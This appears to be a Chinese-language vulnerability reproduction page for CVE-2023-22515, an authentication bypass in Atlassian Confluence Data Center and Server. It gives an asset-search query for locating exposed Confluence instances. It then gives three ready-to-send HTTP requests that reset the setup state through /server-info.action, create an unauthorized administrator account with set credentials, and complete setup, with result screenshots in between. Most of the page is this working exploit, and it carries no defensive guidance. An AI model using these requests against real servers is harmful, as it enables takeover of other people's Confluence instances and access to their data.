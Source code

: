 # Atlassian Confluence server-info.action 登陆绕过漏洞 CVE-2023-22515

## 漏洞描述

Atlassian Confluence 是 Atlassian 开发的一款建基于网络企业维基 (collaboration software) 的软件。Atlassian Confluence 数据中心和服务器存在漏洞，利用 /server-info.action 端点传递 bootstrapStatusProvider.applicationConfig.setupComplete 参数，使服务器处于安装未完成状态，以访问受限制的端点并创建未经授权的 Confluence 管理员帐户，登录 Confluence 实例后台。

## 漏洞影响

<a-checkbox checked>Atlassian Confluence</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-Confluence"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1630488806824-a8205673-933b-434b-8050-abcde3ef3e97-9159064.png)

验证POC

```php
GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded
X-Atlassian-Token: no-check
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697624725476-31dd0dd6-1d0a-4542-bafe-3ab5097a7bb5.png)

```php
POST /setup/setupadministrator.action HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
X-Atlassian-Token: no-check
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: */*
Content-Length: 126

username=bbvpe4mk&fullName=bbvpe4mk&email=bbvpe4mk@localhost&password=6wg6pm6sP123&confirm=6wg6pm6sP123&setup-next-button=Next
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697624750262-a2d22c1e-b935-4ce4-9d39-105074f54914.png)

```php
GET /setup/finishsetup.action HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
X-Atlassian-Token: no-check
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: */*
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697624779864-7545cb71-80b8-4698-ba28-fa62df4918df.png)